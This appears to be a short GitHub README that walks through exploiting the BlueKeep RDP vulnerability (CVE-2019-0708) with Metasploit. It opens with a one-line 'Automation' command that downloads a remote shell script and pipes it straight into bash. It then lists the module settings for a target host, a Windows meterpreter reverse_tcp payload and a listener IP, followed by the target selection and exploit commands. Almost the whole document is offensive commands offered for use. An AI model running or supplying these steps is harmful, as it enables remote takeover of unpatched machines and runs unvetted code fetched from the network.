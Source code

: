 [![Read more](https://github.com/nu11secur1ty/Kali-Linux/blob/master/BlueKeep/wall/BlueKeep_OG.jpg)](https://blog.rapid7.com/2019/09/06/initial-metasploit-exploit-module-for-bluekeep-cve-2019-0708/)


- Automation:
```bash
curl -s https://raw.githubusercontent.com/nu11secur1ty/Kali-Linux/master/BlueKeep/bk.sh | bash
```
- SET Target:
```bash
SET RHOSTS 0.0.0.0 # target
SET payload windows/64x/meterpreter/reverse_tcp # set the module
SET LHOST 0.0.0.0 # Your IP for receavin
```
- Check for targets
```bash
show targets
```
- Set Target number
```bash
SET target x
```
- Exploit the target 
```bash 
exploit
```
